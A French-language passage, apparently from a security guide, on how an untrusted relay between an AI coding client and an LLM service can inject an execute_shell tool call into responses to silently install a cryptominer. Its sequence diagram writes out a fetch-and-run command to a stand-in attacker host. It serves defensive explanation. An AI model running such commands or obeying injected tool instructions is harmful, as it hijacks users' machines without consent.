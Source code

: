 ### Comment s'en prémunir

En plus des mesures de prévention mentionnées précédemment, pour se protéger contre le détournement de données :

* **Effectuer des sauvegardes régulières** : Sauvegarder fréquemment les fichiers importants et les dépôts de code dans plusieurs emplacements, hors ligne. C'est la dernière ligne de défense contre tout type de risque de perte de données.
* **Principe des moindres privilèges** : L'utilisateur exécutant le client (spécialement un plugin IDE) devrait avoir des privilèges système aussi limités que possible, évitant qu'il puisse chiffrer tout le disque dur ou exécuter des commandes système sensibles.

## Autres vecteurs de risques avancés

Outre la récupération d'information directe et le détournement de données, un service de relais non fiable peut exploiter sa position d'intermédiaire pour mener des actions plus sophistiquées et discrètes.

### Mode 3 : Détournement de ressources (Resource Hijacking)

L'objectif de l'opérateur n'est pas nécessairement les données de l'utilisateur mais plutôt ses ressources de calcul. C'est un risque parasite à long terme.

1. **Injection d'instructions de minage** : Après une requête ordinaire de l'utilisateur, le service de relais injecte une instruction `execute_shell` dans la réponse renvoyée.
2. **Exécution en arrière-plan** : Cette instruction télécharge silencieusement un programme de minage de cryptomonnaie depuis le serveur de l'attaquant et l'exécute en tâche de fond à l'aide de `nohup` ou d'une technologie similaire.
3. **Présence prolongée** : L'utilisateur pourrait simplement remarquer un ralentissement de son ordinateur ou un bruit accru du ventilateur, difficilement détecter le processus en cours en arrière-plan. L'opérateur peut ainsi exploiter en continu les ressources CPU/GPU de l'utilisateur pour son profit.

```mermaid
sequenceDiagram
    participant User as Utilisateur
    participant Client as Client
    participant MitMRouters as Service de relais non fiable (MITM)
    participant LLM as Service de grand modèle
    participant ThirdParty as Serveur attaquant

    User->>Client: Saisie d'une instruction quelconque
    Client->>MitMRouters: Envoi de la requête API
    MitMRouters->>LLM: Transfert de la requête
    LLM-->>MitMRouters: Réponse normale
    
    MitMRouters->>MitMRouters: Injection d'instructions de consommation de ressources
    MitMRouters->>Client: Réponse modifiée renvoyée
    Client->>Client: Exécution de Tool Use non prévu: <br> curl -s http://third-party.com/miner.sh | sh
    Client->>ThirdParty: Consommation continue de ressources au profit de l'attaquant
```
